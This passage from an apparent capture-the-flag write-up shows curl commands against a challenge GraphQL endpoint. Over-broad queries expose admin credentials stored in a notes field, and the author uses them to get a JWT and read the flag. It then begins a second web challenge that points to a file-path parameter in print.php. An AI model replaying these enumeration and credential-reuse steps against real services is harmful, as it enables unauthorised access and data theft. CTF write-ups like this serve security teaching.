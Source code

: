 ```shell
15: __EnumValue  
16: __Directive
```

I run this to check every feild possible without authentication:
```shell
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql -H "Content-Type: application/json" -d '{"query":"{ publicRecipes { id name description isSecret author { id username displayName email notes privateNotes recipes { name description } } ingredients { name suppli  
er { id name owner { id username displayName } } } } }"}'
```
In the output I see `"notes":"TODO: Remove temporary credentials... brunner_admin:Sw33tT00Th321?"`.

I grab the login token:
```shell
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql -H "Content-Type: application/json" -d '{"query":"mutation { login(username:\"brunner_admin\", password:\"Sw33tT00Th321?\") { token user { displayName } } }"}'  

{"data":{"login":{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1OTExOTcwLCJleHAiOjE3NTU5MTkxNzB9.0rTozfQYnen2eTVDJhGLqg0yfbyaURiUl6bpRZv4sHk","user":{"displayName":"Brunner Admin"}}}}
```

I run this final curl command to get the flag:
```shell
curl -s -X POST https://brunner-s-bakery.challs.brunnerne.xyz/graphql -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6InUyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzU1OTExOTcwLCJleHAiOjE3NTU5MTkxNzB9.0rTozfQYnen2eTVDJhGLqg0yfbyaURiUl6bpRZv4sHk" -d '{"query":"{ me { id username displayName email notes privateNotes recipes { id name description isSecret ingredients { name supplier { id name owner { id username displayName email notes privateNotes } } } } } }"}'
```
`brunner{Gr4phQL_1ntR0sp3ct10n_G035_R0UnD_4Nd_r0uND}`.

___

## Brunsviger Huset
**Category:** Web

**Difficulty:** Easy-Medium  
**Author:** ha1fdan

Welcome to "Brunsviger Huset" (House of Brunsviger), the oldest Danish bakery in town! Our bakers have been perfecting their craft for over 150 years, and our signature brunsviger is a favorite among locals and tourists alike. But, it seems like our bakery has a secret ingredient that's not on the menu... Can you find the hidden flag that's been baked into our website? Be warned, our bakers are notorious for their clever hiding spots!

I open the website at `https://brunsviger-huset-377bb418914e8dea.challs.brunnerne.xyz` and look at the source code. Towards the bottom I see a `printCalender()` function with this `print.php?file=/var/www/html/bakery-calendar.php&start=2025-07&end=2025-09`. 

I visit that link and see it provides a download for a pdf. 
